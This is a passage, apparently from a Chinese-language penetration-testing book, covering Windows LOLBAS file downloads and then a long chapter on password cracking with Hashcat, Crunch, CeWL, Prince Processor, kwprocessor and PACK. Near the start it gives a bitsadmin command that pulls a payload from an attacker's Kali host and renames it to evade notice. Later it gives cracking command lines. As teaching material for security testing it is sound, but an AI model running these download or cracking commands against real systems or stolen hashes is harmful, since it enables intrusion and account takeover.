最后，你也可以使用 Windows 系统命令来托管或下载文件。“离地二进制文件与脚本”（Living Off the Binaries & Scripts）是 Windows 内置命令，可以执行许多不同的功能，在这种情况下是下载文件。这些命令可以直接在计算机本身上运行，或者在你拥有远程 shell 时调用它们来下载额外的工具或软件。我们将在第 28 章更深入地讨论 LOLBAS 命令。在 LOLBAS 页面上搜索“/execute”可以找到用于下载或执行命令的命令列表。

> [`lolbas-project.github.io/#/execute`](https://lolbas-project.github.io/#/execute)

让我们来看其中一个，“Bitsadmin”。Bitsadmin 用于管理智能后台传输服务。我们可以使用此命令下载并运行我们选择的文件。

> [`lolbas-project.github.io/lolbas/Binaries/Bitsadmin/`](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

自该网站编写以来，命令上下文似乎发生了变化，请参见微软关于 Bitsadmin 的网页¹。

> ➢ 在 exploit 所在的 Kali 目录中启动 Python Simple Server

> ➢ 从 Windows 命令行提示符，输入“`bitsadmin /transfer test /DOWNLOAD /priority HIGH http://172.24.1.146:8000/pwrshell.exe c:\data\cutepuppy.exe`”

Windows 系统从我们的 Kali 机器请求文件：


然后下载并保存它：


如果你有远程 shell，可以使用 `cmd.exe /c` 命令执行相同的操作。

> ➢ `cmd.exe /c "bitsadmin /transfer test /DOWNLOAD /priority HIGH http://172.24.1.146:8000/pwrshell.exe c:\data\cutepuppy.exe"`

如果你通过 C2 或其他方法拥有远程 shell ，这非常有用。查看其他的 LOLBAS 命令，看看有多少个允许你远程下载文件。

## 总结

在本节中，我们演示了如何使用 Web Delivery 模块通过 PowerShell、Python 和 PHP 在 Windows、Linux 和 Mac 系统上获取反 shell。我们还学习了如何将 Web Delivery 生成的 PHP 代码转换为功能性的 PHP 网页脚本。

希望如你所见，Web Delivery 模块非常易用且效果良好。当我们稍后通过 Meterpreter 使用命令时，Web Delivery 模块是你用来获取教程中所需的远程 shell 的方法之一。

最后，LOLBAS 或 Windows 系统命令可以以隐蔽的方式下载软件。你使用的是内置命令，它们有更大的概率成功且不被反病毒软件拦截。我看到攻击者在实中经常使用 Bitsadmin 命令下载软件。作为防御者，这是需要注意的这一点。

## 参考文献

> ➢ Script Web Delivery - [`www.rapid7.com/db/modules/exploit/multi/script/web_delivery/`](https://www.rapid7.com/db/modules/exploit/multi/script/web_delivery/)

> ➢ ¹Bitsadmin Transfer - [`docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer`](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)

# 第六部分 - 密码攻击

## 第 27 章

### 密码攻击

你每年都会看到那些“20XX 年最常用密码”列表，老实说，在我看来，它们已经不再真实了。服务器的基本密码要求很大程度上阻止了列出的许多密码的使用。在活跃破解公开泄露列表时，我在过去几年中看到的最高频密码是人名（或多个名字）、数字和可能还有符号的组合。人是有习惯和模式的生物，这在他们创建密码时尤为如此。名字、重要日期或数字容易记忆，所以这些通常是创建密码时使用的内容。许多密码还以大写字母开头并以符号结尾。要克服多年的正规语言教育是很困难的。

我在我的《Kali Linux 基础安全测试》书籍中涵盖了基础密码破解、密码哈希值以及 John the Ripper 和 Hashcat 的基本用法。我将在这里镜像其中的一些信息，但我的目标是快速跳过基础用法，进入一些更高级的话题。我个人使用 Linux 处理我的字典列表，但我大多数密码破解是在 Windows 机器上完成的。最高的破解是在具有非常强大且快速 GPU 的系统上进行的。在我家里，这台机器兼作我的游戏电脑。所以，就是 Microsoft Windows！如此，Hashcat 的命令在 Windows 和 Linux 之间基本相同，因此我将展示更通用的命令版本，以便读者可以在他们喜欢的平台上使用。

### 字典列表

常用的破解技术之一是使用字典列表。字典列表顾名思义，字面意思是“单词列表”。字典列表是一个单词集合，每行一个。`Hashcat` 获取第一个单词，使用使用的任何加密算法和盐进行加密，然后与目标哈希值进行比较。如果匹配，任务完成，密码破解！如果不匹配，`Hashcat` 移动到列表中的下一个单词，过程完成。字典列表可以下载、通过字典工具创建或手动创建。字典列表有很多。

拥有良好的字典列表（或列表）对于破解密码至关。有些是从之前的密码泄露创建的，有些是字典中的单词、人、地、事的列表。有些是从模式生成的，有些是以上所有内容的组合。所有这些都可以在网上下载。

小心，某些托管随机字典列表的网站是恶意网站或黑帽网站！

人们会认为使用巨大的字典列表是可行之举——但事实并非如此。虽然使用大型字典列表可能是很好的起点，但对于你的第一次尝试，它们并不总是破解密码最有效的方法。更有效的技术之一是使用较短的字典列表结合规则（rules）。我们将在本章后面讨论使用规则进行破解。首先，让我们看看列表的一些良好来源。

### 常用字典列表

> ➢ [`github.com/ignis-sec/Pwdb-Public/tree/master/wordlists`](https://github.com/ignis-sec/Pwdb-Public/tree/master/wordlists)

> ➢ [`packetstormsecurity.com/Crackers/wordlists/`](https://packetstormsecurity.com/Crackers/wordlists/)

> ➢ [`weakpass.com/wordlist`](https://weakpass.com/wordlist)

> ➢ [`hashkiller.co.uk/`](https://hashkiller.co.uk/)

> ➢ [`github.com/berzerk0/Probable-Wordlists`](https://github.com/berzerk0/Probable-Wordlists)

> ➢ [`download.g0tmi1k.com/wordlists/large/`](https://download.g0tmi1k.com/wordlists/large/)

> ➢ [`hashes.org`](https://hashes.org)- 目前离线


在这些列表中，Ignis 列表是我的最爱。我觉得 Ignis 列表是目前可用最好的集合之一。它们与其他字典列表和规则结合使用时效果极佳。尽管现在出了一个新的“Rock You 2021”字典列表，但我个人认为它太大了，不适合用于组合、混合型或规则类型的攻击。不过，如果你需要一个好的大列表，可以轻松地在 Google 上搜索。

## 用于目录路径或服务器暴力破解的字典列表

当然，密码破解并不是字典列表的唯一用途。许多安全工具使用字典列表进行 Web 或目录路径枚举。

这里是一些其他有列表：

> ➢ [`github.com/danielmiessler/SecLists`](https://github.com/danielmiessler/SecLists)

> ➢ [`gist.github.com/jhaddix`](https://gist.github.com/jhaddix)

> ➢ [`wordlists.assetnote.io/`](https://wordlists.assetnote.io/) (暴力破解与渗透测试，API 路径)

当你下载字典列表时，通常会有很多重复的单词，或者列表可能包含许多无用信息。以下是一个用于清理字典列表中无用或随机垃圾信息的工具：

> ➢ [`github.com/BonJarber/SecUtils`](https://github.com/BonJarber/SecUtils) - 字典列表清理（不过我不同意将某些符号归类为“噪声”单词）

## Kali 自带的字典列表

Kali 内置了几个字典列表。只需输入“wordlists”，Kali 就会列出主列表并自动切换到“wordlists”目录。


你也可以使用 Kali Linux 菜单选择“05 – password Attacks > Wordlists”作为该目录的快捷方式。

### Rock You 列表

最流行的是“Rock You”列表。这是一个包含数百万个实际使用的密码的大型集合，这些密码是从数据库转储文件中提取的。

> ➢ 文件位于 `/usr/share/wordlists/` 目录，所示：


你会发现，Rockyou 列表是压缩的，因此在我们在使用之前需要先将其解压：


如果你愿意，可以使用 `cat` 命令来查看文件，但对于终端查看来说，它太大了。

### JOHN THE RIPPER 列表

广受欢迎的密码破解器 John the Ripper 附带了一个较小的密码列表，但它确实包含了许多 Web 上最常用的密码。

> ➢ 文件位于 `/usr/share/john/` 目录，所示：


### WFUZZ 多重字典列表

Wfuzz 是一款网站暴力破解工具。虽然不是所有的字典列表都有帮助，但某些是有趣的，特别是“general”目录下的那些。

> ➢ 文件位于“/usr/share/wfuzz/wordlist” 目录，所示：


### 其他字典列表

正如我之前提到的，在 "/usr/share/” 目录下还有其他几个带有字典列表的程序。虽然“RockYou.txt”可能是内置的最优秀的列表之一，但如果你需要额外的列表，只需翻阅“/usr/share/” 目录看看能发现什么。

## 字典列表生成工具

Kali 中的几个工具可以让你创建自己的个性化字典列表。CeWL 非常有用，因为它允许通过从目标网站获取信息来创建密码。Crunch 也很棒，因为它允许你从零开始创建自定义字典列表。让我们仔细看看如何使用这些工具。

### CeWL

工具作者：Robin Wood

工具网站：[`digi.ninja`](http://digi.ninja)


CeWL 是创建公司或基于主题的列表的极佳工具。很多时候，用户会使用与其工作地或工作内容相关的单词创建密码。CeWL 会爬取目标网站，并使用网站上找到单词构建自定义字典列表文件。

> ➢ CeWL 不再默认默认安装，但只需输入 `cewl` 即可安装。

要使用 CeWL，请提供你需要的选项和目标 URL。例如，如果我们想对网站“cyberarms.wordpress.com”进行深度为 1 层（`-d 1`）的爬取，提取任何六字符以上的单词（`-m 6`）并保存为“cyberarms.txt”，我们将使用以下命令：

```
cewl -w cyberarms.txt -d 1 -m 6 https://cyberarms.wordpress.com/
```


CeWL 爬取目标网站并根据符合我们标准的术语创建一个字典列表。生成的文本文件在使用前可能需要稍微清理，但这是一个非常有用的工具。

### Crunch

工具作者：Mimayin, Bofh28

工具网站：[`sourceforge.net/projects/crunch-wordlist/`](https://sourceforge.net/projects/crunch-wordlist/)

Crunch 是一个很棒的程序，让你创建自定义密码列表。只需告诉 Crunch 你想要什么、长度和复杂度，Crunch 就会为你生成。


Crunch 手册页（所示）包含了如何使用该工具的完整说明和示例。基本上，我们只需要告诉 crunch 单词的最小和最大长度、使用什么类型的字符，剩下的由 Crunch 完成。Crunch 大量使用了位于其安装目录“/etc/share/crunch”下的 `charset.lst` 文件。因此，你需要在该目录下运行 crunch，或者在使用更高级的字符集时（所示）通过 `-f` 切换指向该目录。

好了，让我们从一个简单的例子开始：

> ➢ 在终端提示符下，输入 `crunch 1 3 -o threeletters.txt`

这告诉 crunch 从单个字母（1）开始，到三个字母（3）结束，然后将输出（`-o`）保存为“threeletters.txt”。基本上，crunch 从单个字母“a”开始循环所有排列直到得到“zzz”。

将产生类似以下的内容：

> a, b, c, d, e, f, g, h, i, j, 等…

> aa, ab, ac, ad, ae, af, ag, ah, ai, aj, 等…

> aaa, aab, aac, aad, aae, aaf, aag, ah, aai, aaj, 等…

如果我们对选项进行一些尝试，就可以创建出更复杂的列表。

> ➢ 输入 `crunch 3 4 abcde1234 -o alphanumeric.txt` 所示：


该命令创建了一个字典列表，从 3 个字符（aaa）开始，到 4 个字符（4444）结束，使用“abcde1234”的字母/数字组合。这生成了一个包含如下字符串的文本文件：

> aa1, bb3, ec4, 2a21, 和 e3da

### Crunch - 使用 Charset.lst 文件

Crunch 的 `charset.lst` 文件包含一组预定义为字母数字或符号字符串的关键字。我们可以使用这些关键词，这样就不需要手动输入想要使用的字符。该文件位于“/usr/share/crunch”目录下。如果我们查看该文件，可以看到可以使用哪些关键字集：

> ➢ `cd /usr/share/crunch`

> ➢ `cat charset.lst`


我们可以使用任何定义的字符集，例如：

> ➢ `sudo crunch 2 4 -f charset.lst mixalpha-numeric-all -o mixedall.txt`


该命令创建了一个循环二到四个字符单词的字典列表，包含所有字母、数字和符号。大多数网站都要求新账户至少使用字母和数字的组合。因此，拥有这些组合的列表是一个很好的开始。

密码中包含数字字符串也很常见。我见过常见的长达 16 位的数字，并与人、地点或事物结合。你可以使用 crunch 创建一个数字范围的字典列表，所示：

> ➢ `sudo crunch 1 5 -f charset.lst numeric -o 1to5numbers.txt`


这将创建一个包含一到五个数字的字典列表。单单使用它并不非常有效，但结合 Hashcat A1 组合攻击使用“Rock You”或 Ignis 列表将非常有效。

### Crunch: 创建 Unicode 字典列表

许多语言都包含扩展或 Unicode 字符。我们可以使用 Crunch 使用“Unicode”字符创建字典列表。“mixalpha-space-sv”字符集包含了其中一些字符。

所示：

mixalpha-space-sv = [abcdefghijklmnopqrstuvwxyzåäöABCDEFGHIJKLMNOPQRSTUVWXYZÅÄÖ ]

> ➢ `sudo crunch 3 5 -f charset.lst mixalpha-space-sv -o mixedall.txt`


我们现在有了一个用于密码破解的混合字符列表。我们可以将其结合（`- a1`）与之前的“1 到 5 位数字”列表，得到一个非常实用的组合。或者我们可以将其用于混合攻击，让 `Hashcat` 添加数字。

如下文所示：

> ➢ hashcat --remove -m 0 uncracked.txt -o cracked.txt -i -a6 mixedall.txt ?d?d?d?d -O

上面的命令将取我们新创建的词字典，并每次向词字典添加一个十进制数字，增量进行。因此，第一轮会在词字典末尾添加一个数字，第二轮会在词字典的单词末尾添加两个数字，以此此类推。

使用这种简单的技术，我能够破解未破解列表中的许多密码哈希值。它破解了如下的密码：

> ➢ NMWTÄ48

> ➢ häLLo1995

> ➢ Ã¥minÃ¥1311

> ➢ Nickä2501

我知道这些字母看起来有点不同，但这就是 `hashcat` 显示 Unicode 字符的方式。这在某些情况下很有用，但你可以使用破解程序中的规则和组合攻击来实现其中的很多功能。

## Crunch - 创建更高级的词字典


在用 `crunch` 创建单词时，我们可以使用多个字符集。人类是习惯习惯和模式的生物，所以你在破解密码时会发现模式。你可以使用 `crunch` 使用任何模式创建自定义词字典。

警告，这会很快填满硬盘！

只需简单列出你想要使用的每个字符集，然后使用 `"@,%^"` 字符并创建一个掩码，就像你使用 `Hashcat` 时所做的那样。`"@"` 符号代表第一个字符集中的字符。`,` 代表第二个，`%` 代表第三个字符集，以此此类推。然后你使用 `-t` 模式开关来构建你的模式。

很困惑对吧？让我们来看一个例子：

> ➢ sudo crunch 10 10 -f charset.lst mixalpha-space-sv symbols14-space ualpha -o mixedsymupper.txt -t @@@,,,,%%%

不要让它运行超过几秒钟！按下 `"Ctrl-c"` 并寻找 `"START"` 文件。

你应该能看到这样的单词：

> aaa!!!#VVR

> baa!!$#WUS

> aba!*!#KTT

> cab&!!)SSU

你应该能看到我们构建的模式：

> ➢ 来自 mixedalpha-spave-sv 字符集的 3 个字母 (@@@)

> ➢ 来自 symbols14-space 字符集的 4 个符号 (,,,,)

> ➢ 来自 Upper Alpha 字符集的 3 个字符 (%%%)

很多时候，你会发现一个单词在密码哈希中被反复使用，比如一个公司名称。假设我们发现了一组密码，它们包含虚构公司的缩写“WOW”，后面跟着 3 个符号、2 个大写字母和 5 个数字。

我们可以使用以下 `Crunch` 命令：

> ➢ sudo crunch 13 13 -f charset.lst symbols14-space ualpha numeric -o special.txt -t WOW@@@,,%%%%%

再次，不要让它运行超过几秒钟，然后查看 `"START"` 输出文件。

> WOW!!!AB11910

> WOW!!!AB11911

> WOW!!!AB11912

> WOW!!!AB11913

`Crunch` 是一个带有许多选项的神工具。如果你找不到满足你需求的词字典，就用 `Crunch` 构建它吧！我们只提到了该工具的几个功能。还有其他功能以及存储输出文件的不同方法——请查看 crunch 手册获取有用的示例。

## Hashcat - 使用 Hashcat 创建词字典

许多 `Hashcat` 用户不知道你实际上可以使用 `Hashcat` 本身创建词字典。你可以使用任何标准的 `Hashcat` `-a` 攻击命令来生成词字典。我们将在几分钟后介绍几种 `Hashcat` 攻击模式。所以，与其一步步讲解这些，我创建了一个显示一些常用用途的表格：


再次，你可以使用任何需要的 `-a` 攻击模式，只需确保你使用了 `--stdout` 开关。然后你可以通过 `-o` 指定输出文件，或直接使用 `>` 文件重定向命令。

## 词字典总结

你遇到大多数现代密码都是名称、数字和符号的组合。在破解密码时，我大量使用 Ignis 列表。我使用 `Hashcat` Combinator 工具组合较小的 Ignis 列表。我经常使用的其他词字典是 Facebook 的名和姓列表。这两者对于使用 Combinator 工具来说都相当大，但将它们与较小的 Ignis 列表或数字列表组合也非常有效。

## 使用 Hashcat 进行基础密码破解

让我们讨论一些基础破解技术。你可以使用词字典、词字典加规则、组合词字典、暴力破解以及带词字典的暴力破解。我们将简要查看每一个。

### 使用单个词字典

`hashcat` 最基本的用法是使用单个词字典文件。

> ➢ hashcat64 --remove -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -O

在用 `Hashcat` 破解时我总是使用 `--remove` 开关。这告诉 `hashcat` 从未破解的词字典移除任何已破解的单词。如果不这样做，它将一直保留在未破解词列表中，延长破解时间。你必须为 `hashcat` 提供正确的哈希类型。`-m 0` 是你尝试破解的哈希类型，`0` 指定哈希为 MD5。`hashcat` 能够破解广泛的哈希。这些可以通过 `hashcat64 --help` 命令列出。


结尾的 `-O` 告诉 `hashcat` 你不需要破解超长密码（多达 256 个字符），因此它专注于 32 个字符以内的密码并运行速度更快。我破解过的最长哈希远超过 100 个字符——那是有人放在公共转储中的垃圾文本，使其看起来更大。

*注意：为了简洁，在大多数示例中未显示 `--remove` 和 `-O`*

最后，你可以使用 `-D` 开关在你的攻击中指定使用哪个处理器。


在带有 GeForce 卡的工作站上，你会使用 `-D 2`。

### 带规则的单个词字典

规则会自动修改词字典中的单词，极大地增加你的猜测基础。`rule` 文件位于 `rule` 子目录中。

`Best64` 规则是最流行且运行最快的规则之一：

> ➢ hashcat64 -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -O

```
-r rules/best64.
```

你可以使用 `toggles` 规则切换词字典中每个字符的大小写：

> ➢ hashcat64 -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -O

这会创建如下单词：

> cat, Cat, caT, dog, Dog, doG

如果规则文件较小，你也可以同时使用两个规则文件。尽管会创建巨大的词字典，有时会导致内存溢出导致 `hashcat` 退出。

> ➢ hashcat64 -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -r rules/best64.rule -r rules/OneRuleTomAll.rule

将 `best64` 和 `OneRuleTomAll` 规则结合非常有效。这是我破解时最喜欢的组合之一。`0Rules` ([`github.com/praetorian-in/Hob0Rules`](https://github.com/praetorian-in/Hob0Rules)) 也不错。每个规则文件略有不同，所以最好尝试一下，看看哪些最符合你的需求。

### 组合两个词字典

你可以使用 `-a1` 命令轻松组合两个词字典。该命令将一个列表的每个单词与第二个列表的每个单词组合。

> ➢ hashcat64 -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -a1 wordlist1 wordlist2 -O

创建如下单词：

> catdog

> dogcat

在每个单词之间插入空格（或任何单个字符）来组合词字典。你可以使用 `-j` 开关来实现：

> ➢ hashcat64 -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -j$" " -a1 wordlist1 wordlist2 -O

创建如下单词：

> cat dog

> dog cat

在每个单词末尾加上 `!`（任何字符）来组合词字典。你可以使用 `-k` 开关来实现：

> ➢ hashcat64 -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -k$"!" -a1 wordlist1 wordlist2 -O

创建如下单词：

> cat!

> dog!


> catdog!

> dogcat!

你可以同时使用 `-j` 和 `-k` 选项。例如，通过在中间使用空格并在每个单词末尾使用 `!` 来组合字典列表：

```bash
hashcat64 -m 0 [Uncracked.txt] -o [Cracked.txt] -j$" " -k$"!" -a1 wordlist1 wordlist2
```

将创建如下单词：

> cat dog!

> dog cat!

# 混合攻击 – 掩码、字典列表与暴力破解

掩码（Masks）在 `Hashcat` 中用于执行暴力破解。这在 `Hashcat` 中通过 `-a3` 选项指定。有些人因为暴力破解会浪费时间而对其产生反感——因为它必须尝试模式的每种组合。但这是绝对必要的，特别是在破解未知长度和复杂的哈希值时。当你耗尽了所有的字典列表、规则和组合攻击后，暴力破解是获取哈希值“新视角”的绝佳方法，并可能发现你可以使用的模式。一旦你找到了模式，就可以退一步并修改掩码使其更具排他性，或者切换到包含这些模式的专用字典列表。

我最喜欢的破解技术之一是使用混合攻击或将字典列表与暴力破解结合。`Hashcat` 提供两种模式：`-a6 字典 & 掩` 和 `-a7 掩 & 字典`。使用混合攻击比单纯使用暴力破解快得多。

## 掩码 (Masks)

掩码只是你想要在任何类型的暴力破解攻击中使用的字符符号列表。

你可以使用：

* `?l` – 小写
* `?u` – 大写
* `?s` – 符号
* `?d` – 数字
* `?h` – 0-9，以及字母 a-f
* `?H` – 0-9，以及字母 A-F
* `?a` – 任何数字、字母或符号
* `?b` – 二进制 – 从 00 到 ff 的每一个十六进制字符

## 基础暴力破解攻击

`-a3` 是 `Hashcat` 中用于基础暴力破解的命令——你只需要输入想要使用的掩码，它将尝试你规范中的每一个字符。

使用 `?a?l?u?s` 掩码的 `-a3` 攻击会产生如下猜测：

```text
Brai!
7laB$
upW)
```

暴力破解虽然很好，但可能非常耗时。一个由 `?a` 组成的字符掩码会强制它在每个位置尝试每个字符和符号，可能会花费极长时间。你可以通过在某些位置使用 `?u`、`?l` 或 `?s` 来缩短时间，但掩码的每种变化，破解时间仍呈指数级增长。`?b` 比 `?a` 需要更长，因为它将尝试从 `00` 到 `ff` 的每一个十六进制字符。这包括标准数字、字母和符号，还包括制表符、换行符等扩展 ASCII 字符。

## 混合攻击 – 字典与暴力破解结合

将暴力破解与掩码结合使用更有效地利用时间。混合攻击的格式为：

```bash
-a6 字典 [掩]
-a7 [掩] 字典
```

使用 `-a6` 攻击：

```bash
-a6 wordlist.txt ?a?l?u?s
```

（仅显示 `hashcat` 命令的结尾）将产生如下单词：

```text
catai!
7laB$
upW)
```

使用 `-a7` 攻击：

```bash
-a7 ?a?l?u?s wordlist.txt
```

会产生如下单词：

```text
Rai!
7laB$
dog)
```

你可以在任何暴力破解方法上添加 `-I` 或增量标志，这会导致 `Hashcat` 每次只处理掩码的一个字符。因此它将遍历整个字典列表，并在每个单词中添加 `?a` 字符。第二轮将添加 `?a?l`，以此此类推，直到掩码中的所有字符都被使用。

第一轮：
```text
catB
cat7
dog*
```

第二轮：
```text
cat7l
dog*u
```

## Prince Processor

在结束本章之前，让我们来看另外两个主题。

### Prince Processor 攻击

`Prince Processor` (`PP`) 是一种高级的字典列表组合攻击。它可以使用单个字典列表执行复杂的字典攻击。首先，设置密码最小长度，然后提供要使用的字典列表。`PP` 将根据你提供的长度，从现有文件中的多个单词开始构建该长度的单词。例如，如果你设置单词长度为 6，它可以从一个单词中取全部 6 个字母，也可以从 6 个单词中各取 1 个字母，或者从 3 个单词中各取 2 个字母，以及之间的任何组合。

`PP` 然后将这些新单词实时导入 `Hashcat`。`Hashcat` 将这些单词作为普通字典列表进行破解。它并不异常快，但如果你没有了其他选择，这是一个非常有趣的技巧。

```bash
pp64.exe --pw-min=12 < HugeWordlist.txt | hashcat64 -D 2 --remove -m 0 uncracked.txt -o cracked.txt
```

`PP` 的缺点在于虽然它的功能令人印象深刻，但速度损失巨大。虽然字典列表的大小似乎并不真正影响速度，但 `Prince Processor` 本身极快；我认为瓶颈更多在于将输出管道到 `Hashcat` 中。

不过我发现，将字典输入 `Prince Processor` 然后直接输出到文本文件，再将其作为普通字典使用，速度要快得多。

```bash
pp64.exe --pw-min=10 < wordlist.txt > PrinceWordlist.txt
```

似乎你也可以用 `PP` 使用两个独立的字典列表，它似乎会从两个列表中都取单词：

```bash
pp64.exe --pw-min=10 < HugeWordlist.txt SecondWordlist.txt > PrinceHugeSecond.txt
```

缺点是这会非常快地创建巨大的字典文件。除非你有非常大的硬盘，否则不要让它运行几秒钟。已经警告你了！

我为了趣味破解很多复杂的列表，但在 `PP` 上并不算成功。尽管使用 `PP` 生成的字典（如上面的 `PrinceWordlist.txt`）然后在 `hashcat` 中配合规则运行，对我来说取得了一些成功。最后，`Prince Processor` 自带两条规则，你可以使用它们进一步修改单词，就像在普通的 `hashcat` 中一样一样。

更多信息请查看 PP 规则网页：
[`github.com/hashcat/princeprocessor/tree/master/rules`](https://github.com/hashcat/princeprocessor/tree/master/rules)

## 密码破解 - 模式

在破解密码时，始终要寻找模式。人类是习惯和熟悉事的生物，因此几乎总是存在模式。一旦你有了模式，就可以使用这些模式创建自定义字典列表。例如，在处理一个其他黑客尚未破解的组合公共密码转储文件时，我在转储文件中发现了字符代码。

数据库在存储哈希值时，并没有使用 `&`、单引号 `'`、双引号 `"`、小于或大于，而是将它们转换为 HTML（或 XML）字符代码然后进行哈希处理。因此，密码数据库中存储的不是 `&`，而是 `&amp;`。或者，使用了十进制 ASCII 代码 `#038`。

因此，密码 `behappy&` 变成了 `behappy&amp;`。然后它被转换为哈希并存储。在破解这些密码时，你必须使用字符代码创建一个字典列表。

我使用我在转储文件中看到的所有字符代码创建了一个自定义字典，包括：

```text
&amp;
&apos;
&quot;
&lt;
&gt;
&#038;
&#039;
&#032;
&#033;
&#034;
&#035;
&#037;
```

我将其配合标准字典列表使用，只找到了几个。问题是，这些代码用在密码中间，通常用于分隔两个或多个单词。使用 Hashcat 工具可以很容易复制这一点。

```bash
combinator3 1K_wordlist.txt CustomCodes.txt 1K_wordlist.txt > word_custom_word.txt
```


> 警告！！在使用 `combinator` 特别是 `combinator3` 时你必须非常小心。它们会使用输入单词的所有可能组合来创建一个词表，因此输出将比仅输入词表呈指数级增长。如果你使用大型列表，它们会（并且将会！）填满硬盘——你已经收到警告了！

这种组合破解了许多密码，我知道我走在正确的路上——但我需要更大的词表。我没有冒险对大列表使用 `combinator3`，而是对我的自定义词表和一个 100 万词列表使用了 `combinator`。

> ➢ `combinator` `CustomCodes.txt` `1M_wordlist.txt` > `custom_1Mword.txt`

然后我可以使用这个新词表，并在 `hashcat` 中使用 `-a1` 组合攻击，使用任何其他词表作为开头，并将自定义的 100 万列表作为结尾。

> ➢ `hashcat64 -D 2 --remove -m 0 hashes.txt -o cracked.txt -a1 10MillionWords.txt custom_1Mword.txt`

Hashcat 随后将我的 1000 万词列表与其中的每个单词、我的自定义代码以及 100 万词列表结合在一起。这破解了大量的密码！

破解的密码看起来如下：


# Hashcat 键盘走位密码词表 (Keymap Walking Password Wordlists)

Hashcat 最新的键盘走位工具“KwProcessor”可以快速方便地根据键盘走位技术生成密码列表。许多用户使用走位风格的密码。在本节，我们将快速查看如何使用此工具。

## 简介

键盘走位密码在许多组织中非常流行，尤其是政府实体。它们非常易于使用和记忆。基本上，你从键盘上的某个特定键开始，然后选择一个方向（或多个方向）并开始击键。当你“走过”键盘时，你的密码就输入成功了。

你可以通过使用 Shift 键并在模式中包含数字以这种方式创建复杂的密码，如下所示：


从字母“z”开始，我们向西北移动，击中“a”、“q”和“1”键。然后我们向东移动一行，击中数字“2”，然后向东南移动回到键盘下方，击中“w”键并停在“s”上。这将创建密码“zaq12ws”。如果我们交替使用 Shift 键，我们将得到密码“ZaQ1@wS”，这稍微复杂一点。

让键盘走位如此成功（直到现在）的原因是，攻击者需要知道起始键、方向、方向变化、是否使用了特殊键以及何时使用，当然，还有结束键。Hashcat 新的 `KwProcessor` 工具让创建键盘走位词表变得非常简单。

## 安装 KwProcessor (kwp)

与 Hashcat 工具包一样，`kwp` 是 hashcat 的一个可选下载项目。只需下载最新版本，或者你可以从源码编译。下载最新版本是最佳选择，因为它已经几年没有更新更新了。

> ➢ 下载最新版本 - [`github.com/hashcat/kwprocessor/releases`](https://github.com/hashcat/kwprocessor/releases)

> ➢ 解压文件

> ➢ 使用 `./kwp` 运行程序

## 键盘布局与路径 (Keymaps and Routes)

要破解键盘走位密码，你需要两个东西：键盘键的布局以及一个用于创建词表的路径列表。在 `kwp` 程序目录中，你会找到 `keymaps` 和 `routes` 文件夹：


`Keymaps` 文件夹包含多种语言的键盘布局：


`routes` 文件夹有 7 个预配置的键盘走位或路径，可用于生成密码：


我们可以使用这些预配置的路径，或者使用命令行参数创建自己的路径。

输入 `./kwp --help` 查看可用选项：


## 创建 KWP 词表

要创建一个简单的 `kwp` 词表，我们将使用英语键盘布局和“2-10 位，最多 3 次方向变化”路径文件，如下所示：

> ➢ `./kwp basechars/full.base keymaps/en.keymap routes/2-to-10-max-3-direction-changes.route`

这会导致 `kwp` 创建多个键盘走位组合，长度为 2-11 个字符，最多 3 次方向变化：


命令的输出直接发送到屏幕，因此要创建一个输出文件，你需要将命令输出到文本文件：

> ➢ `./kwp basechars/full.base keymaps/en.keymap routes/2-to-10-max-3-direction-changes.route > basickwp.txt`

然后你可以将生成的文本文件作为 Hashcat 中的词表。

要创建一个更复杂的词表，请使用较大的路径文件之一：

> ➢ `./kwp basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwp.txt`


### 外语键盘走位

如果你需要破解外语键盘走位，只需使用外语的键盘布局文件之一。

因此，创建一个俄语键盘走位词表：

> ➢ `./kwp basechars/full.base keymaps/ru.keymap routes/2-to-16-max-3-direction-changes.route > rukwp.txt`

以及生成的文件：


如果我们的密码哈希列表包含生成的任何单词，它将破解它们。

Hashcat KWP 工具非常适合快速创建键盘走位词表。更改键盘布局语言也很容易，这在破解国际密码时会派上用场。如果你想了解更多关于 KWP 的信息，请查看 Hashcat 的 GitHub 页面：

[`github.com/hashcat/kwprocessor`](https://github.com/hashcat/kwprocessor)

## 使用破解的密码破解新密码

最先进的破解技术之一是将破解的密码作为词表，然后在组合攻击中使用它们，或对它们运行规则。这通过解析 Hashcat 的破解输出文件可以轻松实现。输出文件包含原始哈希、冒号以及密码。Linux 文本处理命令对于处理词表非常有用，特别是 `cut` 命令。我们需要删除哈希和冒号，然后将其保存为新文件。在下面的示例中，密码从第 34 列开始：

> ➢ `cut -c34-128 cracked.txt > crackedwl.txt`


在创建自己的词表或合并词表时，另一个有技巧是排序并去重：

> ➢ `sort wordlist.txt | uniq -d > finalwordlist.txt`

当你将多个词表合并为一个时，这种技术非常有用。

# PACK - 密码分析与破解工具包

工具作者：Peter Kachinsky (iphelix)

工具 GitHub：[`github.com/iphelix/pack`](https://github.com/iphelix/pack)

最后，让我们快速查看其他一些密码工具。PACK 是用于高级密码分析和破解的工具集。PACK 让分析统计并创建掩码变得非常简单。

> ➢ `git clone https://github.com/iphelix/pack`


对破解词表进行模式和统计分析：

> ➢ `python2 statsgen.py crackedwl.txt`


可以使用 PACK 工具从词表中创建掩码：

> ➢ `statsgen.py crackedwl.txt -o crackedwl.masks`

> ➢ `maskgen.py crackedwl.masks --occurrence -q -o crackedwl.hcmask`

（你可以使用 `--targettime` 限制时间）


你现在有一个包含 Hashcat 破解掩码的文件：


这返回了大量的掩码，正如你看到的，破解时间超过一年。我们没有那么多时间，让我们看看是否可以精调列表。

> ➢ `python2 maskgen.py crackedwl.masks --targettime 900 --optindex -q --showmasks`

这将返回一组优化的掩码，预计可以在 15 分钟内完成。

然后你可以使用普通的 -a3 掩码攻击将此文件输入 Hashcat，它将逐个使用文件中的每个掩码。就像自动暴力破解攻击一样！


```
hashcat64 -D 2 --remove -m 0 uncracked.txt -o cracked.txt -a3 quickmasks.hcmask -O
```


